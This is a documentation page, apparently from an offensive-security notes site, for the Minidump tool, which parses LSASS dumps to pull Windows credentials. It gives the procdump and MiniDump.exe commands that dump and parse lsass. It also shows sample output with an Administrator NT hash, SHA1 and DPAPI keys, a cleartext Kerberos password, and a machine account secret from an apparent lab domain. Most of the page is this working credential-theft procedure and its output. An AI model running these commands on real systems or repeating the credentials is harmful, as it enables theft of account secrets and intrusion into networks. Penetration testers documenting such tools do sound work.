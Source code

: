 ```yaml
---
title : "Minidump"
# pre : ' '
description : "C# implementation of mimikatz/pypykatz minidump functionality to get credentials from LSASS dumps."
date : 2021-10-22T11:14:39+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Minidump

C# implementation of mimikatz/pypykatz minidump functionality to get credentials from LSASS dumps.

Supported Credentials:

* Lsa
* Msv
* Kerberos
* WDigest
* SSP
* TsPkg
* Credman
* Dpapi
* CloudAP

### Installation

{{%attachments title="Related files" fa_icon_class="far fa-file" pattern=".*(exe)"/%}}

### Usage

[Sysinternals - procdump]({{< ref "sysinternals" >}})

```plain
PS C:\> .\procdump64.exe (ps lsass).id data -ma
PS C:\> MiniDump.exe lsass.dmp
```

### Examples

```plain
PS C:\Users\johndo\Downloads> .\MiniDump.exe C:\temp\lsass.DMP
Dpapi failed: Object reference not set to an instance of an object.
=====================================================================
[*] LogonId:     0:56684667
[*] LogonType:   CachedInteractive
[*] Session:     1
[*] LogonTime:   2021-10-25 13:46:52
[*] UserName:    Administrator
[*] SID:         S-1-5-21-1182270690-2338034634-174722242-500
[*] LogonDomain: OFFSEC
[*] LogonServer: SRV2016
[*] Msv
    DomainName: OFFSEC
    UserName:   Administrator
    NT:      97f2592347d8fbe42be381726ff9ea83
    Sha1:    d0321e2e4e0712ba7b3f8c1998931312bf6a8b05
    Dpapi:   408853f35eebebe52bffa11b77478cca
[*] Kerberos
    DomainName: OFFSEC.NL
    UserName: Administrator
    Password: Welkom1234
=====================================================================
[*] LogonId:     0:55957391
[*] LogonType:   Interactive
[*] Session:     2
[*] LogonTime:   2021-10-25 13:45:17
[*] UserName:    DWM-2
[*] SID:         S-1-5-90-0-2
[*] LogonDomain: Window Manager
[*] Msv
    DomainName: OFFSEC
    UserName:   WIN10$
    NT:      b5fb60bc5eb9092f9f96b89fcf0fee45
    Sha1:    33bcd239a53d5650bebd83a4963630805ab24465
[*] Kerberos
    DomainName: offsec.nl
    UserName: WIN10$
    Password: 82 b5 45 75 ad 5b 36 d1 3e 3a cf 7b fb ea 0a ca 48 63 92 25 71 53 0b f4 2d f8 80 48 28 7f fc 96 43 5b 30 19 ba 4c 88 be 53 7b 7b 11 a9 d8 c1 23 88 e2 24 01 64 45 31 08 08 af c6 97 bb 88 6e 0f 86 05 dd 43 12 d2 81 f3 ab e1 c3 11 1e cc 42 13 d2 e4 24 fa 2f 8e 6f eb 02 70 2e d4 92 30 42 01 a9 bd f9 cc 34 63 b2 78 41 c2 f4 94 73 8a 24 9c 3d cf 1d cf d5 5a dc 8b 47 0a c6 20 62 f8 8f 70 2c 16 92 ed f6 0a 4e 59 fe d4 7d d2 94 77 11 8a 4c c2 ce 3e 45 d4 53 e4 e7 e5 96 23 99 03 29 5e 2d 85 76 66 59 39 cc 33 1a cc 7a ac e5 c9 36 1d f2 18 0a fe 8b e3 41 ae 4c bd 0c fc 1a 5b a6 1b f2 c8 00 b7 19 5c 28 90 10 4b 32 a5 38 e0 44 1d b2 72 db c9 e5 ad 86 0f 7c 34 d1 82 40 24 83 0f 2f 60 3c 28 78 dc ef 82 03 de 4a 13 33 62 c3 5f
    NT: B5FB60BC5EB9092F9F96B89FCF0FEE45
[...SNIP...]
```

### URL list

* [Github.com - Minidump](https://github.com/cube0x0/MiniDump)
